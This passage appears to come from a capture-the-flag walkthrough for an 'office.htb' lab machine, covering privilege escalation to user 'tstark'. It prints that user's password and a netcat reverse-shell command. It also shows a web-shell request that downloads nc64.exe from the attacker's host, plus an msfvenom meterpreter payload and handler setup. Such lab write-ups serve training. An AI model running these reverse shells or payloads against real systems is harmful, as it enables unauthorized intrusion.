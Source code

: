### Phase 9: Privilege Escalation to tstark using RunasCs

We're in now and since we have valid creds as tstark we will download and upload RunasCs:

```bash
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
unzip RunasCs.zip
```

Back in msfconsole

```bash
.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
```
```
C:\xampp\htdocs\joomla\templates\cassiopeia>.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
.\RunasCs.exe tstark playboy69 "C:\xampp\htdocs\joomla\templates\cassiopeia\nc.exe -e cmd.exe 10.10.14.61 7777" -d office.htb -l 8
[*] Warning: The function CreateProcessWithLogonW is not compatible with the requested logon type '8'. Reverting to the Interactive logon type '2'. To force a specific logon type, use the flag combination --remote-impersonation and --logon-type.
[*] Warning: The logon for user 'tstark' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[-] RunasCsException: CreateProcessWithLogonW logon type 2 failed with error code: This version of %1 is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher
C:\xampp\htdocs\joomla\templates\cassiopeia>    
```
We got this error we have to upload nc64.exe (that's probably why I haven't received back rev shell)

```bash
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
curl http://office.htb/templates/cassiopeia/error.php?cmd=powershell+iwr+10.10.14.61:8000/nc64.exe+-O+nc64.exe
```

That still doesn't work so let's use msf again:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f exe -o tstark_shell.exe
```

In the same msf session

```bash
background
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.61
set LPORT 7777
set ExitOnSession false
exploit -j
```
